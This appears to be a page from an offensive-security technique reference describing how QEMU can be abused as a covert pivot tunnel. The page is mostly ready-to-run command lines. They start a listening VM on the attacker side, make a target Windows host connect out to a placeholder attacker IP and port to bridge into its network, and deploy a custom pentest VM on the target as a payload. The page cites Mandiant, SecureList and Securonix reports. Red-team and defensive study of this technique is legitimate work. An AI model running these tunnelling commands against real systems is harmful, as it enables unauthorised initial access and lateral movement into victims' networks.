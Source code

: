 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - living-off-the-foreign-land
  - bring-your-own-island
  - cross-platform
---
```

# QEMU

## Virtual Machine as a Pivot Handler

Launch QEMU server to host a live ISO.

```
$ qemu-system-x86_64 -boot d -cdrom linux-pentest-os.iso -m 6048 -device e1000,netdev=n1,mac=52:54:00:12:34:56 -smp 2 -netdev socket,id=n1,listen=:<attacker_PORT>
```

Let the target establish connection to the attacker's virtual machine server to create a pivoting network to gain initial access.

```
C:\> .\qemu-system-x86_64.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic

C:\> .\qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

## QEMU Host as a Pivot Handler

TODO: Test this method.

Launch the QEMU as a reverse pivot handler.

```
$ qemu-system-x86_64 -m 512M -device e1000,netdev=n1,mac=52:54:00:12:34:56 -netdev socket,id=n1,listen=:<attacker_PORT> -nographic
```

On the client side establish connection to the attacker's server.

```
C:\> .\qemu-system-i386.exe -m 1M -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -device e1000,netdev=sock,mac=52:54:00:65:43:21 -nographic

C:\> .\qemu-system-x86_64.exe -m 1M -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -device e1000,netdev=sock,mac=52:54:00:65:43:21 -nographic
```

## Bring Your Own Island (Virtual Machine as a Payload)

Deploy your own custom virtual machine as a pivot box.

```
C:\> .\qemu-system-x86_64.exe -drive file=C:\path\to\linux-pentest-os.iso -nographic &

C:\> .\qemu-system-i386.exe -drive file=C:\path\to\linux-pentest-os.iso -nographic &
```

---
## References

### Mandiant

- [Mandiant: Live off the Land? How About Bringing Your Own Island? An Overview of UNC1945](https://cloud.google.com/blog/topics/threat-intelligence/live-off-the-land-an-overview-of-unc1945)

### SecureList

- [SecureList: Network tunneling with… QEMU?](https://securelist.com/network-tunneling-with-qemu/111803/)

### Securonix

- [Securonix: CRON#TRAP - Emulated Linux Environments as the Latest Tactic in Malware Staging](https://www.securonix.com/blog/crontrap-emulated-linux-environments-as-the-latest-tactic-in-malware-staging/)